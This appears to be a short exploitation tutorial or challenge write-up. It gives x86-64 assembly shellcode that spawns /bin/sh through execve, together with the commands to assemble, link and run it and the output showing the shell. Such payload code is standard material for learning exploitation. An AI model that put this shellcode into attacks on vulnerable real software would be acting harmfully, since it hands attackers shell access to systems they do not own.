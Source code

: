 ```asm
global _start
_start:
    xor rsi, rsi                ; second parameter, NULL
    xor rdx, rdx                ; third parameter, NULL
    push rdx                    ; null-byte for string

     ; use rax as intermediate when putting string on stack
    mov rax, 0x68732f2f6e69622f ; /bin//sh
    push rax
    mov rdi, rsp                ; first parameter, "/bin//sh\0"

    xor rax, rax
    mov al, 0x3b                ; code for execve
    syscall
```

Assembling, linking, and running:

```
$ nasm -f elf64 -o shell64.o shell64.asm
$ ld -o shell64 shell64.o
$ ./shellcode
$ ps -p $$
  PID TTY          TIME CMD
12552 pts/2    00:00:00 sh
$ exit
```

And we got our shell. You can recompile the test and vulnerability as 64bit
binaries to verify the rest of the challenge works with this payload.
